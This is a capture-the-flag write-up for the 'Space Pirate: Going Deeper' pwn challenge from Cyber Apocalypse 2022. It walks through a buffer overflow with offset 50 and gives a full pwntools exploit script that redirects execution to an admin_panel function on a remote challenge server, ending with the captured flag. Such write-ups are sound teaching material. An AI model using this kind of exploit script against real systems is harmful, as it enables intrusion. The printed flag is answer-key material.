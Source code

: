 ```yaml
---
layout: load_md
title: The White Circle | Cyber Apocalypse 2022 | Space Pirate : Going Deeper Writeup
desc: "The White Circle is a community for Cyber/Information Security students, enthusiasts and professionals. You can discuss anything related to Security, share your knowledge with others, get help when you need it and proceed further in your journey with amazing people from all over the world."
image: images/twc_og_banner.jpg
ctf: Cyber Apocalypse 2022
parent: cyber_apocalypse_2022
category: pwn
challenge: Space Pirate : Going Deeper
tags: "pwn, taz, bof, python"
---
```


<h1 class="heading card-title white-text">Cyber Apocalypse 2022</h1>

## Space Pirate : Going Deeper
> Solved by:  Taz34

Here we have a 64 bit binary which takes input as follows:

![](https://i.imgur.com/q2tXif4.png)

After playing around with the binary i came across a Segmentation fault, hence we have a buffer overflow exploit here.

![](https://i.imgur.com/u0IXBic.png)

So I found the offset to be 50. 

Now to understand the working of the binary I opened the binary in Cutter
https://cutter.re/

Here we came across the main function and another interesting function named admin_panel
In the admin_panel function we came across an if statement:

![](https://i.imgur.com/w6r55nM.png)

From here we can understand that, if we want to print the flag i.e. `system(``"``cat flag``"``);`
we need to make the if condition false.

So now we can create the payload

```python
payload = b'A'*offset + ret_addr_main + ret_addr_admin_panel + if_arg1 + if_arg3 + if_arg3
payload = b'A'*50 + p64(0x400b9a) + p64(0x400b46) +p64(0xdeadbeef) + p64(0x1337c0de) + p64(0x1337beef)
```

Now we have our payload set, hence the final script:

```python
from pwn import *
#elf = ELF('./sp_going_deeper')
#p = elf.process()
p = remote("138.68.161.126", 31239) 

payload = b'A'*50 + p64(0x400b9a) + p64(0x400b46) +p64(0xdeadbeef) + p64(0x1337c0de) + p64(0x1337beef)

p.sendline('1')
p.sendline(payload)
p.interactive()
```

![](https://i.imgur.com/jgsMkE9.png)


And here the flag is dumped.

```
Flag: HTB{no_n33d_2_ch4ng3_m3ch5_wh3n_u_h4v3_flow_r3d1r3ct}
```